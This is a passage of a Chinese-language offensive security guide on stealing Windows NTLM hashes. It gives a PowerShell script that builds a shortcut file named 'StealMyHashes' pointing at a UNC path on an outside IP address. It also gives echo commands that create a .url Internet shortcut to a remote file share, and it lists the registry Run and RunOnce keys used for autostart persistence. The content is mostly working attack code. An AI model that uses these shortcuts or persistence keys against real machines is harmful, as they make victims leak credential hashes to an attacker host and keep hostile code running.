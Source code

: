 Powershell 版本。

```
$objShell = New-Object -ComObject WScript.Shell 
$lnk = $objShell.CreateShortcut("StealMyHashes.lnk") $lnk.TargetPath = "\\35.164.153.224\@OsandaMalith" 
$lnk.WindowStyle = 1 
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3" $lnk.Description = "I will Steal your Hashes" $lnk.HotKey = "Ctrl+Alt+O" 
$lnk.Save()
```

![](img/0ff4802c1f3fd71b53edc3051dd4b0c2.png)

# 互联网快捷方式(。网址)

Windows 中的另一个快捷方式是 Internet 快捷方式。您可以将其保存为 something.url

```
echo [InternetShortcut] > stealMyHashes.url 
echo URL=file://192.168.0.1/@OsandaMalith >> stealMyHashes.url
```

# 使用注册表自动运行

您可以在以下任何路径中添加新的注册表项。

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

![](img/00a74565e68477fb9b9c23c7f145b8d9.png)
